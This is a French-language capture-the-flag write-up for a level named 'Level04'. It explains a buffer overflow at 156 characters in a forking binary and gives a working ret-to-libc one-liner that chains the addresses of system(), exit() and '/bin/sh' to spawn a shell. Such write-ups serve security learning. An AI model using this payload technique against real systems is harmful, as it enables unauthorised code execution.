





# Level04:

Ici quand on observe le source.c on constate qu'il **fork()** le programme, dans le *processus fils* il rentre en communication avec le parent et demande une string (qui va etre overflow a partir du 156eme charactere), dans le *processus parent* il ecoute le *processus fils* et si `exec()` est appele, le processus est ferme directement.

On ne peut donc pas utiliser la methode precedente mais nous pouvons faire une attaque **ret to libc** avec la commande suivante:

`(python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) | ./level04`
Elle se decompose comme suit:

**[padding (156 * A)][`system()` address from libc][`exit()` address from libc]["/bin/sh" string address from libc]**

Ci-dessous on recupere les adresses de `exit()` et `system()`:

Et ici nous recuperont l'offset de la string "/bin/sh" depuis le debut de la libc

Que nous ajoutons donc a l'adresse du debut de celle de la libc (**0xf7e2c000**)

Et voila le resultat:
